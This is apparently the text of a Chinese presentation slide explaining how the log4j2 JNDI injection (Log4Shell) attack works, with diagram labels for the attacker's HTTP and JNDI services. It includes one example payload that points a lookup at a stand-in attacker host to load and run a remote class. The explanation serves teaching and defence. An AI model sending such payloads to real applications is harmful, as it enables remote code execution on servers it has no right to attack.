

# 攻击原理
攻击者发请求，注入jndi，例如${jndi:ldap://com.attacker:9999/AttackClass}
被攻击的应用使用log4j2处理用户请求信息，上述注入被触发，从http服务获得工厂类，在被攻击者虚拟机内执行工厂类的工场方法。由于工厂方法是在被攻击者虚拟机内执行，这个由攻击者编写的类可以做任何事情！

攻击者的HTTP服务
攻击者使用HTTP请求工具在请求参数、请求头中注入jndi
被攻击的应用
攻击者的JNDI服务